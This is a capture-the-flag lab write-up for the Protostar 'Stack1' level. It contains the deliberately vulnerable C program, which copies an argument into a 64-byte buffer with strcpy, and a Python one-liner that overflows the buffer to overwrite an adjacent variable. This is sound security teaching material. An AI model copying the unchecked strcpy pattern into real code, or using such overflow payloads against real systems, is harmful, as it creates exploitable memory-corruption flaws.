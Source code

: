 # Stack1

## Description

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at `/opt/protostar/bin/stack1`

### Hints

- If you are unfamiliar with the hexadecimal being displayed, `man ascii` is your friend.
- Protostar is little endian

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Approach

In source code, We know that buffer specified with 64 bytes. Also the condition defined that If We modified the address to `0x61626364`. This will be solved.

## Exploitation

Make a payload of 64 bytes characters and Add the address which defined in the condition. Pipe the payload into the binary.

```bash
./stack1 $(python2 -c 'import struct; print "A"*64+struct.pack("I",0x61626364)')
```
